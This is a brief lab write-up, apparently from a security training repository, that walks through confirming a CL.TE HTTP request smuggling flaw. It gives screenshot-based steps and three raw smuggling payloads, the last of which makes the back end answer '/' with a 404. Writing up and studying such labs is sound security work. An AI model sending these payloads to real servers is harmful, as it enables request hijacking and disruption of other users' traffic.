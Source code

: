 # HTTP request smuggling, confirming a CL.TE vulnerability via differential responses

## This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding.

## To solve the lab, smuggle a request to the back-end server, so that a subsequent request for `/` (the web root) triggers a 404 Not Found response.

---

### step 1

change post request to get request
change protocol from HTTP/2 to HTTP/1.1

![screenshot](./images/images_lab4/lab4_homepage_with_post_request.png)

### step2

![screenshot](./images/images_lab4/lab4_add_payload_for_lab1.png)

### step3

![screenshot](./images/images_lab4/lab4_proxy_error.png)

### step4

![screenshot](./images/images_lab4/lab4_payload_ce_te.png)

### step5

content-Length update must be unmarked

![screenshot](./images/images_lab4/lab4_uncheck_content_length.png)

### step6

test payload

```
e
q=smuggling&x=
0

GET /post?postId=5 HTTP/1.1
Foo: x
```

![screenshot](./images/images_lab4/lab4_test_payload_to_display_post.png)

### step7

test payload

```
0

GET /post?postId=5 HTTP/1.1
Foo: x
```

![screenshot](./images/images_lab4/lab4_payloadfor_post.png)

### step8

final payload to solve lab

```
0

GET /404 HTTP/1.1
Foo: x
```

![screenshot](./images/images_lab4/lab4_404_request_payload.png)

### step9

lab solved

![screenshot](./images/images_lab4/lab4_lab_solved.png)
